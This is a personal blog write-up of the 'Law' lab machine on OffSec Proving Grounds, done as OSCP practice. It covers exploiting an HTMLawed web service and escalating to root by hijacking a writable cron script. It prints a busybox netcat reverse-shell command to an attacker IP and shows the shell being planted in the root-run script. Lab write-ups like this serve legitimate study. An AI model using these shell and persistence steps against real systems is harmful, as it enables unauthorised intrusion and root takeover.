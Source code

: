 ```yaml
---
layout: writeup
title: Law - Proving Grounds
date: 2024-07-12 13:32:20 +0300
description: A Writeup of the Law Box from Proving Grounds
image: # /assets/images/Law/Law_1.png
fig-caption: # Add figcaption (optional)
tags: [TJ Null, Linux]
---
```


Here is a writeup for the Law lab on [Proving Grounds](https://www.offsec.com/labs/), another box from TJ Null's OSCP [lab prep list](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#). Let's kick things off as usual with an nmap scan, using `-v` so we can investigate as we go. We see there is a web server on port 80 and check it out. 

![Law_1.png](/assets/images/Law/Law_1.png){: .center-aligned width="600px"}

From the project's github, HTMLawed is "a highly customizable PHP script to sanitize / make (X)HTML secure against XSS attacks, so users can edit HTML without risk of your site getting compromised by evildoers." Noted.

We find an exploit-db shell script, but through Google rather than exploit-db or searchsploit because it is actually misspelled with two "L's". 

![Law_4.png](/assets/images/Law/Law_4.png){: .center-aligned width="600px"}

It seems to work immediately with the busybox shell: `busybox nc 192.168.45.154 80 -e /bin/bash`. Exciting, I feel like I never see that. Maybe the privesc is the tough part. 

![Law_3.png](/assets/images/Law/Law_3.png){: .center-aligned width="600px"}

This time I `cd ..` my way out of the working directory in case I see a local.txt file, and I do in `/var/www`. Cool. I missed that on the Crane box. 

I can't run `sudo -l` without a password, and I don't see any interesting SUID binaries when I run `find / -type f -perm -u=s 2>/dev/null`, so I download linpeas to check things out and run it. Unfortunately nothing jumps out at me immediately beyond kernel exploits like PwnKit and DirtyPipez. Usually I want to avoid this in a lab environment like this as it is likely the creators had a different path planned, but I'll make a note of them. 

I download and run pspy64 to see if I can find anything interesting there while I think, and I see this: `2024/07/20 17:48:01 CMD: UID=0     PID=14435  | /bin/bash /var/www/cleanup.sh` run a few times. That could be interesting if root is running it, and we can modify. We can tell root is running it because it says the `UID=0`. We could also tell if we ran `lse.sh -l1`, but not linpeas. 

Turns out we can, so we add the busybox shell to the cleanup script and wait. 

![Law_2.png](/assets/images/Law/Law_2.png){: .center-aligned width="600px"}

![Law_5.png](/assets/images/Law/Law_5.png){: .center-aligned width="600px"}

A minute later, we catch a root shell, and snag the proof.txt. Nice!

This machine was fairly straightforward once I googled the web service and realized it was misspelled. Then is was just a matter of seeing what processes were running and realize I could abuse one of them. Also - another win for the busybox shell, that's good to know. 